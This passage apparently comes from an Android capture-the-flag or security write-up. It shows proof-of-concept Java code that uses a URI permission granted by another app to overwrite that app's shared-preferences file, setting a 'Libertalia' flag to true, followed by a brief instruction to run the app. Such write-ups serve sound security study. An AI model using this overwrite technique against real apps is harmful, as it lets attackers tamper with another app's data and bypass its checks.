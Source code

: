 ```java
    }
    // ovveride on activity result to handle the received result from the other app
    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        Uri uri = data.getData();
        String xmlContent = "<?xml version='1.0' encoding='utf-8' standalone='yes' ?>\n" +
                "<map>\n" +
                "    <boolean name=\"Libertalia\" value=\"true\" />\n" +
                "</map>\n";
        try {
            // use a content resolver to overwrite the contents
            ContentResolver resolver = getContentResolver();
            OutputStream outputStream = resolver.openOutputStream(uri);
            if (outputStream != null) {
                outputStream.write(xmlContent.getBytes());
                outputStream.close();
                textView.setText("Successfully wrote to file: " + uri);
                Log.d("Exploit", "Successfully wrote to file: " + uri);
            }
        } catch (IOException e) {
            Log.e("Exploit", "Failed to write file: " + e.getMessage());
            e.printStackTrace();
        }
    }
}
```

First we need to click the button run the POC app to be granted the permissions to overwrite the files.

![img-description](6_5.png)

